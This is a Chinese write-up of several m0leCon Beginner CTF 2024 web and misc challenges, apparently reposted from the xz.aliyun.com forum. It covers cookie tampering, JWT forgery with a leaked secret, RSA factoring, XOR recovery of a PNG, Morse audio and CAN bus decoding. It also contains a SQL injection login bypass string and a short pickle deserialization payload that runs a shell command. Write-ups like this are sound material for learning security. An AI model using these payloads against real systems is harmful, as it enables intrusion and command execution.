


# m0leCon Beginner CTF2024部分wp-先知社区

> **来源**: https://xz.aliyun.com/news/16209  
> **文章ID**: 16209

---

## Web

### Cookie Shop

进去后余额为10，flag 价格为1000，查看源码发现

```
<!-- Ops, this is not the right place to put this codes, it should be in the app.py file-->
<!--
    from flask import Flask
    app = Flask(__name__)
    app.secret_key = 'super_secret_key' 
-->
```

以为要用密钥伪造cookie，结果发现直接base64解码改余额再编码传cookie值就行

```
{"balance": 1000000}
->
eyJiYWxhbmNlIjogMTAwMDAwMH0=
```



### GoSecureIt

源码的 secret.go 中泄露了密钥

```
var JwtSecretKey = []byte("schrody_is_always_watching") // I don't know why it's called secret, I'll just leave it here :)
```

本以为要用 go 来伪造role为admin，结果发现直接jwt.io就行

### Locked Door

开题是输密码，8位，点了下Access log没反应，查看源码发现`/rowmawza`路由，进去后download时需要登录，再次查看源码发现

```
<! – remember to prevent sql injection – >
```

猜测是sql注入，尝试万能密码`' OR '1'='1`，下载下来是个流量包，追踪流tcp流发现

```
Protocol: RSA
 n:144866671565187653968436368127956889323
e: 65537Ciphertext: 71296054321509316776624970111608994994Quick tip: to perform difficult calculations, use SageMathCell.
```

给了n和e还有密文，用SageMathCell解rsa就行

```
n = 144866671565187653968436368127956889323
e = 65537

factors = factor(n)
p, q = factors[0][0], factors[1][0]
phi_n = (p - 1) * (q - 1)

d = inverse_mod(e, phi_n)

ciphertext = 71296054321509316776624970111608994994
plaintext = power_mod(ciphertext, d, n)
plaintext
```

算出来是`99004462`，拿去unlock就行

## Misc

### XORed picture

加密脚本

```
from pwn import xor
from os import urandom

key = urandom(16)

fin = open("flag.png", "rb")
fout = open("flag_enc.png", "wb")

pt = fin.read()
ct = xor(pt, key)

fout.write(ct)

fin.close()
fout.close()
```

用一个随机生成的16 字节密钥对 flag.png文件内容进行加密，png文件头前16位是固定的`89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52`，直接异或就能得到key，参考：<https://paper.vulsee.com/ctf-pdf/Crypto%E6%97%A5%E8%AE%B0%E4%B9%8B%E5%88%A9%E7%94%A8CyberChef%E8%A7%A3png%E5%9B%BE%E7%89%87xor%E9%9A%BE%E9%A2%98_Sm0ry%E7%9A%84%E5%8D%9A%E5%AE%A2.pdf>

这道题的key是不可见字符，直接写个脚本xor得到key再xor回去得到flag

```
import itertools
def xor(data, key):
    return bytes(a ^ b for a, b in zip(data, itertools.cycle(key)))

fin_path = "flag_enc.png"
fout_path = "flag_dec.png"

with open(fin_path, "rb") as fin:
    ct = fin.read()

magic_number = bytes.fromhex("89504e470d0a1a0a")
first_chunk_type = b'IHDR'
first_chunk_size = (13).to_bytes(4, "big")
known_pt = magic_number + first_chunk_size + first_chunk_type
key = xor(known_pt, ct[:len(known_pt)])

print(key)
decrypted_data = xor(ct, key)

with open(fout_path, "wb") as fout:
    fout.write(decrypted_data)
```

### KIRBY'S FLAG

gif把每个帧提出来识别一下得到

```
[1]1[2]n[3]h[4]4[5]l[6]i[7]n[8]g[9]_[10]f[11]l[12]4[13]g[14]5[15]_[16]l[17]1[18]k[19]3
[20]_[21]4[22]_[23]b[24]0[25]5[26]5[27]_[28]1[29]5[30]_[31]w[32]h[33]4[34]7[35]_[36]k[37]3[38]3[39]p[40]5[41]_[42]m[43]3[44]_[45]4[46]l[47]1[48]v[49]e
```

最后连起来`1nh4ling_fl4g5_l1k3_4_b055_15_wh47_k33p5_m3_4l1ve`再包裹ptm{}就是flag

### pickle soup

server.py

```
"""Pickle soup server."""

from base64 import b64decode
import binascii
from collections import Counter
import pickle
from pickle import UnpicklingError


BANNER: str = '\n'.join((
    '                                (                ',
    '                             )    )              ',
    ' ._  o  _ |  |  _         _.(--"("""--.._        ',
    ' |_) | (_ |< | (/_       /, _..-----).._,\'      ',
    ' |  _  _      ._        |  `\'\'\'-----\'\'\'`  |',
    '   _> (_) |_| |_)        \\      .-.      /      ',
    '              |           \'.    ._.    .\'      ',
    '                           \'\'--.....--\'\'     ',
))


def get_super_secret_pickle_soup_recipe() -> list[str]:
    """The one and only recipe for the perfect pickle soup."""

    return open('recipe.txt', 'r').read().splitlines()


def make_soup() -> None:
    """Makes a delicious pickle soup using ingredients provided by the user."""

    ingredients: list[str] = []
    while data := input():
        if data == 'done':
            break

        try:
            data = b64decode(data)
        except binascii.Error:
            print('base64 is the only language i understand!')
            return

        if len(data) > 64:
            print('i don\'t remember an ingredient this long...')
            return

        try:
            ingredient = pickle.loads(data)
        except EOFError:
            return
        except UnpicklingError:
            print('invalid pickle!')
            return

        if ingredient in get_super_secret_pickle_soup_recipe():
            print(f'{ingredient!r} is part of the recipe.')
        else:
            print(f'{ingredient!r} is not part of the recipe.')

        ingredients.append(ingredient)

    if not ingredients:
        return

    if Counter(ingredients) == Counter(get_super_secret_pickle_soup_recipe()):
        print('Congratulations! You made an excellent pickle soup!')
    else:
        print('You did not follow the original recipe. Try again.')


def main() -> None:
    """Main function."""

    print(BANNER)
    print()
    print('Send me pickles!')

    make_soup()


if __name__ == '__main__':
    main()
```

有`pickle.loads`，限制了长度为64（这个限制感觉没啥用），随便拿个rce的pickle反序列化脚本打就行

```
import base64
a='''V__setstate__
(S"cat re*"
ios
system
.'''
print(base64.b64encode(a.encode()))
```

### Strange noise

用audacity打开查看频谱图



很明显700 Hz 和 900 Hz 频率之间存在摩尔斯电码，用低通滤波器和高通滤波器隔离包含摩尔斯电码的频率再将其导出拿到在线网址解密：<https://morsecode.world/international/decoder/audio-decoder-adaptive.html>

### PIETcture\*

结合题目名猜测是npiet编程语言，结果发现要输入密码，但貌似无论输入啥都回显nope？

### A car hacker's first steps

是个CAN 总线通信数据，直接筛选出符合 UDS 协议 的 WDBI 帧（写数据帧）和相应的响应帧，提取出来再解16进制就行

```
frames = []

# 读取文件并去除无用的信息：时间戳、接口和ID
with open("candump.txt", "r") as f:
    for line in f:
        frames.append(line.split("#")[1].strip())

# 只保留UDS WDBI帧及其相应的响应帧
for i in range(len(frames) - 1):
    frame = frames[i]
    if frame[2:4] == "2E":
        # 检查下一个帧是否为正响应帧（有效负荷的第二个字节为0x6E）
        if frames[i + 1][2:4] == "6E":
            print(bytes.fromhex(frame[8:]).decode("utf-8"), end="")

print()
```
